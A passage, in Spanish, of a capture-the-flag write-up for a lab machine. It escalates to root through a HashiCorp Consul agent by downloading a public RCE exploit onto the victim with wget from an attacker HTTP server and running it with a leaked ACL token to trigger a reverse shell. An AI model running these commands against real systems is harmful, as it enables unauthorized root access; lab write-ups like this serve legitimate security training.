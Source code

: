 Vamos a buscar mas en **Google** y encontramos estos 2 <https://github.com/owalid/consul-rce> <https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API> nos piden un token y cuando vimos mas información sobre el `comit` nos compartían uno el cual fue borrado 

Como el `consul` lo esta corriendo `root` como `root` vamos a ganar acceso

```bash
developer@ambassador:~$ ps faux | grep consul
root        1091  0.4  3.7 794292 74696 ?        Ssl  17:18   0:33 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl
develop+    2210  0.0  0.0   8160   720 pts/0    S+   19:37   0:00              \_ grep --color=auto consul
developer@ambassador:~$ 

```

Vamos a usar el del compañero **GatoGamer1155** <https://github.com/GatoGamer1155>

Una vez clonamos el repositorio nos pide lo siguiente

```bash
❯ python3 exploit.py
usage: exploit.py [-h] [--rhost RHOST] [--rport RPORT] --lhost LHOST --lport LPORT --token TOKEN [--ssl]
exploit.py: error: the following arguments are required: --lhost/-lh, --lport/-lp, --token/-tk
```

Ahora vamos a pasar el exploit ala maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.183 - - [12/Jun/2023 13:52:41] "GET /exploit.py HTTP/1.1" 200 -
```

```bash
developer@ambassador:/dev/shm$ wget http://10.10.14.9:80/exploit.py
--2023-06-12 19:52:38--  http://10.10.14.9/exploit.py
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1409 (1.4K) [text/x-python]
Saving to: ‘exploit.py’

exploit.py                      100%[=======================================================>]   1.38K  --.-KB/s    in 0.03s   

2023-06-12 19:52:39 (47.7 KB/s) - ‘exploit.py’ saved [1409/1409]

developer@ambassador:/dev/shm$ 
```

Vamos a usar el **token** que vimos `bb03b43b-1d81-d62b-24b5-39540ee469b5`

Hay que darle permisos de ejecución al script `chmod +x exploit.py`

Y ejecutamos

```bash
developer@ambassador:/dev/shm$ python3 exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.9 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener

developer@ambassador:/dev/shm$ 
```
